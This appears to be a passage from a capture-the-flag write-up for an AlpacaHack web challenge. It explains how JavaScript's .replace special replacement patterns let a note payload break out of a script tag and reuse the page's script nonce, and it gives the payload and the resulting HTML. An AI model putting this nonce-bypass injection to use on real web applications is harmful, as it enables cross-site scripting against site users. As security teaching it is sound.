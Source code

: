 What was the part I immediately noticed? Well, I played AlpacaHack Round 2 (Web) authored by Ark recently, and in it was the question **Pico Note 1**, which uses the trick of special replacement patterns in `.replace` to inject arbitrary scripts and bypass script nonce.

(The first part of this challenge is eerily similar with Pico Note 1)<br>
Here is Ark's writeup if you want to take a look at that first: https://blog.arkark.dev/2024/09/04/alpacahack-round-2/

Anyways, the TLDR is that `.replace` not only replaces the things you asked it to replace, but also as this interesting feature called special replacement patterns:
![image](/images/upload_1b845f279c3b05e62c1ea0ce6a7792e9.png)

```js
// To illustrate
const payload = "aaabbbccc";

console.log(payload.replace("bbb", "$`lol"))
/// Part preceding "bbb" is "aaa", thus "aaalol"
// aaaaaalolccc
console.log(payload.replace("bbb", "$'lol"))
/// Part following "bbb" is "ccc", thus "ccclol"
// aaaccclolccc
```

### Abusing .replace

How does this help? Well, see for yourself:
```js
const html = `    
<script nonce="{{nonce}}">
    const note = {{...notes}};
`;

const payload = "$`</script>$`""; custom script with nonce! //";

console.log(html.replace(
        "{{...notes}}",
        `['${payload.
                    replace(/'/g, "&apos;").
                    replace(/\n/g, "").
                    replace(/\r/g, "").
                    replace(/\\/g, "\\\\")
                    }']`))
```
```html
<!-- Theoretical output -->
<script nonce="{{nonce}}">
    const note = ['$`</script>$`""; custom script with nonce! //'];
<!-- 
Now simply replace $` with the stuff before {{...notes}}:
<script nonce="{{nonce}}">
    const note =
-->
```
```html
<!-- Output -->
<script nonce="{{nonce}}">
    const note = [' 
<script nonce="{{nonce}}">
    const note = </script> 
<script nonce="{{nonce}}">
    const note = ""; custom script with nonce! //'];
```
